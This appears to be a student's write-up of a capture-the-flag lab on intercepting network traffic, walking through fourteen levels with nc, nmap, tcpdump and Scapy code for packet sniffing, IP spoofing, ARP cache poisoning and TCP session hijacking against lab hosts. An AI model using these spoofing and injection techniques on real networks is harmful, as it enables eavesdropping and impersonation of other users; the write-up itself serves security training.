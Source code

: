 # Intercepting Communication
- *level 1*: connect to a host, we can use `nc <IP> <PORT>`
- *level 2*: listen to a port `nc -l <PORT>`
- *level 3*: use `nmap` to scan a subnetwork, `nmap -p 31337 10.0.0.0/24`, and find the hosts that are up
- *level 4*: the subnetwork is larger, use Python to scan the network with multi-threading, to avoid creating too many threads, use a thread pool. We can also set `--max-parallelism` and `--min-parallelism` in `nmap`: `nmap -T5 --min-parallelism 200 --max-parallelism -p <PORT> <SUBNETWORK>`
- *level 5*: `tcpdump -i any port <PORT> -A`, the flag is in the data field of the packets
- *level 6*: this time, each packet will contain at most 1 byte of the flag, use Python and `Scapy` to sniff the packets to the specified port, and concatenate the characters in the payload, then we will get the flag
- *level 7*: `10.0.0.4` is communicating with `10.0.0.2: 31337`, we can change our IP address `ifconfig eth0 10.0.0.2`, then listen to port `31337` and get the flag
- *level 8*: we can use `arping 10.0.0.3` to get the MAC address of the host, then `sendp(Ether(dst = '1e:5f:b7:14:a6:0e', src = 'ce:25:29:b2:bc:99', type=0xFFFF), iface = 'eth0')`, it is important to specify `iface`, I didn't get the flag until I include this parameter
- *level 9*: 
    ```
    eth = Ether(dst = 'ff:ff:ff:ff:ff:ff', src = get_if_hwaddr('eth0'))
    ip = IP(dst = '10.0.0.3', proto = 0xFF)
    pkt = eth / ip
    sendp(pkt, iface = 'eth0')
    ```
- *level 10*: 
    ```
    eth = Ether(dst = 'ff:ff:ff:ff:ff:ff', src = get_if_hwaddr('eth0'))
    ip = IP(dst = '10.0.0.3')
    tcp = TCP(sport=31337, dport=31337, seq=31337, ack=31337, flags='APRSF')
    pkt = eth / ip / tcp
    sendp(pkt, iface = 'eth0')
    ```
- *level 11*: `Scapy` is run in user space, however, the `SYN+ACK` packet will first get to the kernel, and it will send a `RST` packet to reset this connection. Initially, I thought this is the reason why I cannot capture the SYN+ACK packet in my program. However, I finally realized that the problem is caused by the small time window between I sent the first SYN packet and invoke `sniff()`, i.e., the SYN+ACK arrived within this time window. To solve this problem, we can use multi-threading, i.e., we start the `sniff()` function in another thread first, then we send the initial SYN packet, and we will be able to capture everything after that
    ```
    sniff_thread = threading.Thread(target=sniffing_function)
    sniff_thread.start()
    initial_SYN()
    ```
- *level 12*: send an ARP reply
    ```
    eth = Ether(dst = 'a2:bb:52:d2:69:a5', src = get_if_hwaddr('eth0'))
    arp = ARP(op = 2, psrc = get_if_addr('eth0'), pdst = '10.0.0.3', hwsrc = '86:55:bf:5b:5c:a0') # op: 2 is-at
    pkt = eth / arp
    pkt.show()
    sendp(pkt, iface = 'eth0')
    ```
- *level 13*: broadcast 2 ARP requests with our MAC address, the first one impersonates `10.0.0.2` to poison the ARP cache of `10.0.0.4`, the second one impersonates `10.0.0.4` to poison the ARP cache of `10.0.0.2`, then we can sniff packets and find the flag in one of them
- *level 14*: first, perform an ARP poisoning to be able to sniff the communication between 2 victims. Then by observing the payload of the TCP packets, we can know that each round, the server will ask for a `SECRET`, the client will send the value of the `SECRET`, then the server will print all commands, the client can send one of them to the server, and finally the server sends back the response. To get the flag, we need to send the command `b'FLAG\n'` to the server. In order to bypass the secret check, we just need to impersonate the client and send a packet right after the server sends all commands, but before the real client sends any command
    ```
    if(packet[IP].src == '10.0.0.3' and raw_data == b'COMMANDS:\nECHO\nFLAG\nCOMMAND:\n'):
        ip   = IP(src = '10.0.0.4', dst = '10.0.0.3')
        tcp  = packet[TCP].copy()
        del tcp[Raw] # it is important to delete the original payload
        tcp.sport = packet[TCP].dport
        tcp.dport = packet[TCP].sport
        tcp.seq   = packet[TCP].ack
        tcp.ack   = packet[TCP].seq + len(raw_data)
        tcp.chksum = None # this will make Scapy recalculate the checksum 
        data = b'FLAG\n'
        pkt  = ip / tcp / data
        send(pkt, iface = 'eth0')
    ```
